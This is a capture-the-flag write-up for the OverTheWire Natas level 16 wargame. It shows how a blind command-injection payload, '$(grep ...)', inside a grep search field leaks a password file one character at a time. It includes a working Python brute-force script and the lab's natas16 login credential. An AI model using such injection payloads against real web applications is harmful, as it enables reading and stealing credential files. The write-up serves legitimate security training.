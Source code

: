 The challenge basically blocks any attempt in escaping the double quotation marks `"`, so we can't make any attempt in leaking the entire flag in the result in the clear. We need a roundabout way to leak the flag. The filter does not filter out some symbols, in particular `$`, `(`, `)`, and `/`. 

We can load the content of a command into the double quotes `"`, in particular something like `cat /etc/natas_webpass/natas17` by doing `$(cat /etc/natas_webpass/natas17)` - the content of the password will be included in the `" "`.

But obviously getting the content of the `natas17` loaded into the `" "` of the `grep` command in `passthru` does not help us with anything - as the password is not even in the `dictionary.txt` file. We need a way to indirectly leak the content of the password stored at `/etc/natas_webpass/natas17`.

A really smart idea is to include the `grep` command in the content of the `" "`. In particular, `grep` will return the content, or part of the content of the password file if some pattern that we specify exists. Hence, we can input something like 

```bash
lunar$(grep -E ^abcd /etc/natas_webpass/natas17)
```

What this basically does is if the `grep` command returns something - let say it returns `abcd`, then the output observed on the website page is nothing (as no word in the `dictionary.txt` is `lunarabcd`). If the `grep` returns nothing, then the string that is `grep`-ed in the `grep` command in `passthru` is `lunar` - it exists in the dictionary so the output of `lunar` should be on the web page. The `-E` tag indicate that we are using a Regular Expression, and `^abcd` means that we are checking if the string in `/etc/natas_webpass/natas17` starts with `abcd`.

Hence, we are able to guess the password character by character by adding more characters to the string after the `^`. Again, we can reduce the search space by searching for all the characters that appear in the password.

The code for all of the aforementioned operation:

```python
import string 
import requests

target = 'http://natas16.natas.labs.overthewire.org'
creds = ('natas16', 'TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V')

alphanumeric = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
charset = ""
password = ""

# Generating the charset for the brute forcing (or guessing char by char)
for char in alphanumeric:
    payload = 'lunar' + '$(grep ' + char + ' /etc/natas_webpass/natas17)'
    r = requests.get(target, auth = creds, params = {"needle": payload})
    if "lunar" not in r.text:
        charset += char 

print("The charset used is: " + charset)

print("--------- Guessing char by char ---------")
# Guessing every position in the password string 
# As the password is 32 chars long, the loop only runs 32 times
for i in range(32):
    for char in charset: 
        guess = password + char
        payload = 'lunar' + '$(grep ^' + guess + ' /etc/natas_webpass/natas17)'
        r = requests.get(target, auth = creds, params = {"needle": payload})
        if "lunar" not in r.text:
            password += char
            print(guess.ljust(32, '='))
            break

```